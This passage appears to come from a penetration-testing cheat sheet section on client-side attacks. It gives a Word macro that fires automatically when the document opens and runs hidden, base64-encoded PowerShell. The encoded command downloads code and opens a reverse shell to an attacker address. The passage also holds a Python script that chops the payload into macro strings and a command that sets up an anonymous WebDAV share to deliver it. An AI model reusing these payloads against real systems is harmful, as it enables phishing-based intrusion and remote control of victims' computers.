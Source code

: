  

### 5. Client-Side Attack

1. **Microsoft Word Macro**

   save the file with word 97-2003 doc

   1. VB Script

      ```
      Sub AutoOpen()
      
        MyMacro
        
      End Sub
      
      Sub Document_Open()
      
        MyMacro
        
      End Sub
      
      Sub MyMacro()
      
      	Dim Str As String
          
          Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
              Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
              Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
          ...
              Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
              Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
              Str = Str + "A== "
      
        CreateObject("Wscript.Shell").Run "powershell"
        
      End Sub
      ```

      

   2. Python split script

      ```
      str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."
      
      n = 50
      
      for i in range(0, len(str), n):
      	print("Str = Str + " + '"' + str[i:i+n] + '"')
      ```

      

2. **Windows Library**

   1. set up WebDAV share

      ```
      /home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
      ```
